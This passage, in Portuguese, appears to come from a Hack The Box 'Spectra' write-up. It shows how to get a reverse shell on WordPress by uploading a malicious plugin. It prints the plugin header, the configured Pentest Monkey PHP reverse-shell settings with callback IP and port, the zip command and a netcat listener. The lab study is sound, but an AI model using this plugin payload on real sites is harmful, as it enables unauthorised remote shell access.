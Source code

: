 Então, para criar este plugin, precisamos realizar os seguintes passos:

- Criar um arquivo com o header do plugin. Este header tem que obedecer aos requisitos mínimos conforme documentado em [Header Requirements \| Plugin Developer Handbook \| WordPress Developer Resources](https://developer.wordpress.org/plugins/plugin-basics/header-requirements/). No nosso caso criei o arquivo `evilplugin.php` com o conteúdo listado abaixo.

```php
/**
 * Plugin Name: evilplugin
  * Version: 1.0
  * Author: evilauthor
  * Author URI: http://evilplugin.test.com
  * License: GPL2
  */
```

- Criar outro arquivo com o payload desejado. Neste caso como o objetivo é um shell reverso, fiz uma cópia do [php reverse shell do Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), alterei os detalhes deste e salvei como `exploit.php`. Abaixo evidencio o trecho do script que necessita alteração.

```php
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.10.10';  // CHANGE THIS
$port = 4443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

- Compactar arquivo conforme abaixo

```bash
$ zip evilplugin.zip evilplugin.php exploit.php
  adding: evilplugin.php (deflated 9%)
  adding: exploit.php (deflated 59%)
```
  
- Uma vez criado o arquivo, acessar o portal do WordPress, autenticar com a conta administrativa e acessar, ao lado esquerdo, o menu *Plugins* > *Add New* e, no topo, clicar no botão *Upload Plugin*

![HTB Spectra - Upload evilplugin.zip](https://i.imgur.com/UlBkZNE.png){: .align-center}

- Inicializar o listener de acordo com o payload configurado. No nosso caso vamos iniciar o  netcat conforme linha de comando abaixo

```bash
nc -lnvp 4443
```
